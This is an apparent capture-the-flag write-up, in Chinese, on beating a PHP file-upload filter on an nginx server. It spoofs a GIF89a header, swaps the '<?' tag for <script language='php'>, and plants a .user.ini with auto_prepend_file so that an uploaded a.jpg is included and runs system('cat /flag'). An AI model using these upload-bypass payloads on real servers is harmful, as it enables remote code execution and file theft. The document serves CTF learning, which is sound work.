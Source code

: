 # 经过多次尝试判断：

## 1.后台检测为文件头可以用GIF89a绕过



## 2.检测文件中是否含有<? ， 可以用<scriptlanguage="php">phpinfo();</script>绕过



## 3.服务器为nginx，nginx不能使用apache .htaccess文件方法绕过。但是nginx服务器有一个.user.ini配置文件。



## 4.在.user,ini配置文件中写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```

上传即可，造成类似文件包含的效果







# 1. .user.ini写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```



![](images/19913D06EBB94F9B86D8D7FBF08448EBclipboard.png)

# 2.上传a.jpg

a.jpg中写入：



```javascript
GIF89a
<script language='php'>system('cat /flag');</script>
```





# 3.访问index.php 

此时index.php文件中包含了a.jpg

则执行了a.jpg的内容

![](images/96EFB2726DE04BE197E6967D9216D047clipboard.png)



